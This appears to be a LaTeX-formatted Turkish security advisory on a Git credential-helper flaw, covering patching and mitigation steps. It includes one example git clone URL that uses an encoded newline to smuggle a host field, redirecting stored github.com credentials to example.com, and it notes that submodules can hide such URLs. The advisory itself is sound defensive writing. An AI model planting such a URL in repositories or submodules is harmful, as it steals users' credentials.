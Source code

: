 \documentclass[11pt]{article}
\begin{document}
Git bazı kimlik doğrulama işlemleri için işletim sistemi tarafından sağlanmış
harici yardımcı araçları kullanıyor. Fakat "git clone" gibi komutlardan
girilen zararlı URL'ler, bu harici kimlik doğrulama araçlarında hata yol açıp,
sistemde kayıtlı kimlik bilgilerini (kullanıcı adı, şifre, ssh anahtarı vb.)
başka bir sunucuya yönlendirebiliyor. Örnek vermek gerekirse:

\begin{verbatim}
git clone 'https://example.com?%0ahost=github.com'
\end{verbatim}

şeklinde çalıştırılan bir komut \texttt{github.com} için depolanmış kimlik
bilgilerini \texttt{example.com} sitesine yönlendiriyor. Elbette benim gibi siz de
ilk bakışta "böyle bariz şüpheli bir komutu kim, niye çalıştırsın?"
diyebilirsiniz fakat bu bağlantılar her zaman böyle açık şekilde olmuyor.
Örneğin, bir depo içerisine başka bir depoyu eklemeye yarayan Git'in Submodule
sistemi böyle bir zaafiyete kurban gidebilir. Siz depoyu normal bir şekilde
sunucudan bilgisayarına çekebilirsiniz fakat Git, Submodule olarak eklenen
diğer depoları çekerken böyle bir bağlantı ile karşılaşırsa haberiniz
olmayabilir.

Neyse ki bu güvenlik sorunu halka açık olarak paylaşılmadan önce kapatılmış.
Git versiyonlarınızı güncelleyerek olası bir zararın önüne geçmiş olursunuz.
Eğer Git versiyonunuzu yükseltebilecek durumda değilseniz aşağıdaki şeyleri
yapmanızda fayda var:

\begin{itemize}
\item Bu komutları çalıştırarak Git'in harici kimlik doğrulama yardımcılarını
kullanmasını önleyebilirsiniz:
\begin{verbatim}
$ git config --unset credential.helper
$ git config --global --unset credential.helper
$ git config --system --unset credential.helper
\end{verbatim}
\item İndirdiğiniz depolar içerisindeki \texttt{.gitmodules} dosyasını inceleyebilir ve
şüpheli bir durum görmezseniz işlemlerinize devam edebilirsiniz.
\end{itemize}

Güvenlik açığı hakkında daha detaylı bilgi edinmek isterseniz konu başlığına
eklediğim bağlantıya ya da Google'ın Project Zero takımının \href{https://bugs.chromium.org/p/project-zero/issues/detail?id=2021}{şu yazısına} göz
atabilirsiniz.
\end{document}
